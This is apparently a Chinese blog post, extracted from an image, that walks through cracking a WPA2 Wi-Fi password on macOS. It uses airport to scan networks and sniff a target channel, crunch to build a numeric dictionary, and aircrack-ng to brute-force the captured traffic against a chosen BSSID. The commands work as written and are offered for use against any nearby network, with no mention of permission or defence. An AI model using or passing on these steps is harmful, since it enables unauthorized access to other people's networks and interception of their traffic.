 ```yaml
---
layout: post
title: Mac上使用aircrack-ng破解Wi-Fi密码
tags: [mac, aircrack-ng, Wi-Fi]
categories:
  - 技术互联
---
```


## 使用Airport获取附近可用Wi-Fi　

　　MacOS自带的命令可以获取附近Wi-Fi的详细信息。首先我们需要把命令加到环境变量中：

```
sudo ln -s /System/Library/PrivateFrameworks/Apple80211.framework/Versions/Current/Resources/airport /usr/local/bin/airport
```

　　然后通过`source ~/.zshrc`或者重新打开终端即可使用`airport`命令：

```
sudo airport -s
```

　　命令结果显示出附近可用的Wi-Fi信息，如下所示：

```
    SSID BSSID             RSSI CHANNEL HT CC SECURITY (auth/unicast/group)
 ******* **:**:**:**:**:** -50  153     Y  CN -- WPA2(PSK/AES/AES)
ChinaNet **:**:**:**:**:** -46  11      N  CN NONE
...
```

　　其中，我们先找到我们需要破解的Wi-Fi名字，纪录下来BSSID，CHANNEL和SECURITY信息，后面会用到。BSSID就是我们目标Wi-Fi发射器的Mac地址。

## 开启信道监听

　　首先我们要获取Mac本机无线网卡名字，通过键入`ifconfig`分析可以得到。我本机无线网卡的名字`en1`，下面的命令需要替换成自己对应的无线网卡名称：

```
sudo airport en1 sniff 11
```

　　命令中的11就是我们在之前获取附近Wi-Fi信息所记录目标Wi-Fi的信道。如果一切顺利的话，会生成`/tmp/airportSniffy*.cap`文件纪录捕获的传输数据。这个文件地址也需要纪录下来，后面会用到。

## 安装aircrack-ng、crunch 

　　使用`brew`包管理器安装就可以，也可以选择下载源码自己编译安装。

```
brew install aircrack-ng
brew install crunch # optional
```

　　crunch 是一个自定义字典生成器，如果有现成的字典则不需要。crunch 生成长度为8的纯数字字典并存入 dic.txt 示例如下：

```
crunch 8 8 012345678 -o dic.txt
```

## 开始破解

　　由于现在的Wi-Fi基本上都是采用WPA2的加密方式，所以我们需要指定 -a 参数为2。

```
aircrack-ng -w dic.txt -M 100 -f 80 -1 -a 2 -b **:**:**:**:**:** /tmp/airportSniff*.cap
```

　　参数说明：

　　- \-w 指定字典文件
　　- \-M 指定最大IVs，根据提示可以适当调大次参数
　　- \-f 暴力破解因子，默认2，也可适当调大
　　- \-a 加密类型，1:WEP, 2:WPA-PSK
　　- \-b BSSID，刚刚纪录目标Wi-Fi的Mac地址
　　
　　更多参数说明可以通过`aircrack-ng --help`查看。
　　后面紧跟之前纪录的捕获数据的存储地址即可。如果在字典里面找到的话，可以看到如下画面：

![Crack SuccessFully Image]({{ site.image_url }}/aircrack-ng/success.png)

　　注：因为 aircrack-ng 是破解捕获数据的，所以所破解的Wi-Fi必须要有设备连接，并且有网络通信，否则无法破解。

## 参考目录

- [1] [Aircrack-ng Wiki](https://www.aircrack-ng.org/doku.php?id=Main)

